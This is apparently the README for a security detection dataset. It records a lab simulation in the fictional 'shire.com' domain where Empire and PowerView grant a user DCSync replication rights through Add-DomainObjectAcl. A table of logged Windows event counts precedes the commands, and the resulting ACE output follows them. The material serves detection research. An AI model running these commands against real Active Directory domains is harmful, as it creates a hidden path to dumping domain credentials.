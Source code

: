 
# Empire DCSync

An adversary with DA permissions can add an ACL to the Root Domain for any user, despite being in no privileged groups, having no malicious sidHistory, and not having local admin rights on the domain controller itself .

## Technique(s) ID

T1222

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## dataset

[empire_dcsync_acl.tar.gz](./empire_dcsync_acl.tar.gz)

## Nnetwork Environment

Shire

## Time Taken

2019-03-01125905

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             280 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             181 |
| Security                                 | Token Right Adjusted Events                            |              93 |
| Security                                 | User Account Management                                |              11 |
| Security                                 | Detailed File Share                                    |               9 |
| Security                                 | Directory Service Changes                              |               6 |
| Security                                 | Group Membership                                       |               4 |
| Security                                 | Logoff                                                 |               4 |
| Security                                 | Logon                                                  |               4 |
| Security                                 | Special Logon                                          |               4 |
| Security                                 | Authentication Policy Change                           |               3 |
| Security                                 | Directory Service Access                               |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | SAM                                                    |               3 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | Process Creation                                       |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             500 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             271 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             149 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              70 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              45 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              27 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              18 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               6 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               5 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             264 |


## Empire Activity

```
scriptimport data/module_source/situational_awareness/network/powerview.ps1
scriptcmd Add-DomainObjectAcl -TargetIdentity "dc=shire,dc=com" -TargetDomain shire.com -PrincipalIdentity nmartha -Rights DCSync
```

You can verify that his was applied in Empire by running the following commands:

```
scriptcmd $nmarthaSid = Get-DomainUser nmartha | Select-Object -ExpandProperty objectsid; Get-DomainObjectACL  "dc=shire,dc=com" -Domain shire.com -ResolveGUIDs | Where-Object {$_.securityidentifier -eq $nmarthaSid}
```

```
AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : DC=shire,DC=com
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : DS-Replication-Get-Changes-All
ObjectSID              : S-1-5-21-2511471446-1103646877-3980648787
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-2511471446-1103646877-3980648787-1106
AccessMask             : 256
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0
```